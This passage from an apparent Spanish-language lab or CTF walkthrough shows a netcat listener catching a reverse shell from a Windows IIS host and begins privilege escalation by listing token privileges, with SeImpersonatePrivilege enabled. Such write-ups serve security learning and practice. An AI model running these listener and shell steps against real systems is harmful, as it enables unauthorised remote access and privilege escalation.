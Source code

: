<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Antes de ejecutar el comando, vamos ponernos a la escucha de la siguiente forma:

```shell
nc -lvnp <PORT>
```

Ahora si ejecutamos el comando y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.1.146] from (UNKNOWN) [192.168.1.156] 49697
Microsoft Windows [Versi�n 10.0.17763.107]
(c) 2018 Microsoft Corporation. Todos los derechos reservados.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

Veremos que ha funcionado y seremos dicho usuario.

## Escalate Privileges

Vamos a ver que permisos tenemos con dicho usuario:

```powershell
whoami /priv
```

Info:

```
INFORMACI�N DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripci�n                                       Estado       
============================= ================================================= =============
SeAssignPrimaryTokenPrivilege Reemplazar un s�mbolo (token) de nivel de proceso Deshabilitado
SeIncreaseQuotaPrivilege      Ajustar las cuotas de la memoria para un proceso  Deshabilitado
SeAuditPrivilege              Generar auditor�as de seguridad                   Deshabilitado
SeChangeNotifyPrivilege       Omitir comprobaci�n de recorrido                  Habilitada   
SeImpersonatePrivilege        Suplantar a un cliente tras la autenticaci�n      Habilitada   
SeCreateGlobalPrivilege       Crear objetos globales                            Habilitada   
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso      Deshabilitado
```
